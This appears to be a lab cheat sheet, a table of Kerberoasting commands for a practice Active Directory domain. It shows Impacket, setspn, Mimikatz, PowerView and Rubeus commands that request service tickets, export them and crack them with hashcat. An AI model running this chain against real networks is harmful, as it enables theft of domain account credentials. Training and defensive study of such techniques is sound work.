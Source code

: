 | `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of `SPNs` on the target Windows domain from  a Linux-based host. |

| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request` | Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host. |

| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev` | Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host. |

| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs` | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host. |

| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host. |

| `setspn.exe -Q */*`                                          | Used to enumerate `SPNs` in a target Windows domain from a Windows-based host. |

| `Add-Type -AssemblyName System.IdentityModel  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"` | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host. |

| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* \| Select-String '^CN' -Context 0,1 \| % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a WIndows-based host. |

| `mimikatz # base64 /out:true`                                | `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host. |

| `kerberos::list /export `                                    | `Mimikatz` command used to extract the TGS tickets from a Windows-based host. |

| `echo "<base64 blob>" \|  tr -d \\n `                         | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host. |

| `cat encoded_file \| base64 -d > sqldev.kirbi`                 | Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host. |

| `python2.7 kirbi2john.py sqldev.kirbi`                       | Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host. |

| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` | Used to modify the `crack_file` for `Hashcat` from a Linux-based host. |

| `cat sqldev_tgs_hashcat `                                    | Used to view the prepared hash from a Linux-based host.      |

| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt ` | Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host. |

| `Import-Module .\PowerView.ps1  Get-DomainUser * -spn \| select samaccountname` | Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host. |

| `Get-DomainUser -Identity sqldev \| Get-DomainSPNTicket -Format Hashcat` | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host. |

| `Get-DomainUser * -SPN \| Get-DomainSPNTicket -Format Hashcat \| Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` | Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host. |

| `cat .\ilfreight_tgs.csv`                                    | Used to view the contents of the .csv file from a Windows-based host. |

| `.\Rubeus.exe`                                               | Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host. |

| `.\Rubeus.exe kerberoast /stats`                             | Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host. |

| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
